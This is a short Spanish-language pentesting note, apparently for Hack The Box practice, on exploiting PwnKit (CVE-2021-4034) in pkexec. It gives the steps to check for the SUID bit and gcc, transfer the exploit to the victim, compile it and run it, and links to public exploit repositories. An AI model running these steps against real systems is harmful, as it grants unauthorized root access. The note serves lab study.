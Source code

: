 ## DESCRIPTION

¿QUE NECESITAMOS?

1.  PKEXEC CON BIT SUID ACTIVADO → SE PUEDE COMPROBAR CON  “find / -perm -4000 2>/dev/null”
2. GCC (COMPILADOR) → Se puede comprobar con: "wich gcc"


#### Mas información
* MEJOR EXPLOIT: https://github.com/arthepsy/CVE-2021-4034
* https://github.com/ly4k/PwnKit


## EXPLOITATION

### OPTION 1:
MEJOR EXPLOIT: https://github.com/arthepsy/CVE-2021-4034
1. Transferimos el EXPLOIT a la máquina, por ejemplo con un servidor web (python3 -m http.server 8080)
2. Compilamos el exploit en la máquina víctima:

```
gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
```
4. ejecutamos: 

```
./cve-2021-4034-poc
```

![[Pasted image 20230518203300.png]]

**!!NOTA IMPORTANTE!!** SI ESTA SOLUCIONADO APARECERÁ 
GLib: Cannot convert message: Could not open converter from “UTF-8” to “PWNKIT”
pkexec --version |
       --help |
       --disable-internal-agent |
       [--user username] PROGRAM [ARGUMENTS...]


## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 